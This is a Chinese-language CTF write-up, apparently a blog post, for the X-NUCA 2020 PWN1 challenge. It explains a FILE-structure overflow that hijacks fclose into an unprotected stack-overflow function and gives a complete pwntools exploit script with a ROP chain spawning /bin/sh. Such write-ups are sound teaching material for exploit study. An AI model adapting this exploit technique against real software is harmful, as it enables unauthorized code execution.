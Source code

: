 ```yaml
---
title: X-NUCA 2020 个人赛 PWN1
date: 2020-12-10 00:00:00
categories:
- CTF/Pwn
tags: 
---
```


> 32位静态链接程序，开了canary和NX，可以溢出可控的IO_FILE结构体，之后会fclose该结构体，所以非常容易控制流劫持。但因为静态链接，也没有后门函数，只能靠系统调用，但因为没法控制栈，也就没法找到一条gadget就能完成execve("/bin/sh",0,0)的。比赛时没做出来，比赛后发现他还有个没有canary可以输入的栈溢出函数，控制流劫持到这然后ROP就完了。

附件：[pwn1](https://xuanxuanblingbling.github.io/assets/attachment/xnuca/pwn1)

这个函数在`0x0804A0C0`：

```
int garbage()
{
  char v1; // [esp+Ch] [ebp-1Ch] BYREF

  return _isoc99_scanf("%s", (char)&v1);
}
```

并且没有函数调用，不愧是垃圾函数：

![image](https://xuanxuanblingbling.github.io/assets/pic/xnuca/garbage.png)

不过后来想想其实可以找到这个函数的，找找输入函数的交叉引用，这也算个经验吧：

![image](https://xuanxuanblingbling.github.io/assets/pic/xnuca/scanf.png)

最终exp如下：

```python
from pwn import *
context(arch='x86',os='linux',log_level='debug')
myelf = ELF("./pwn1")
io = process(myelf.path)

# a vul function can be stackoverflowed and have no canary
hijack_addr = 0x0804A0C0 
iofile_addr = 0x08104ce4
iofile_stuct =  p32(0xffffdfff)
iofile_stuct += '\x00'*0x90
iofile_stuct += p32(iofile_addr+0x98)
iofile_stuct += 'a'*8
iofile_stuct += p32(hijack_addr)*10

# overflow the file pointer and tigger close(file)
payload = '/bin/sh\x00'+'a'*24+p32(iofile_addr)+iofile_stuct
io.recv();io.sendline(payload)
io.recv();io.sendline("3")

# stack overflow and rop 
bin_sh   = 0x08104CC0
gadget1  = 0x08066038 # pop eax ; pop edx ; pop ebx ; ret
gadget2  = 0x0808f26e # inc eax ; ret
gadget3  = 0x0804ab3f # xor ecx, ecx ; int 0x80
payload  = 'a'*32+p32(gadget1)+p32(0x8)+p32(0)+p32(bin_sh)+p32(gadget2)*3+p32(gadget3)
io.sendline(payload)
io.interactive()
```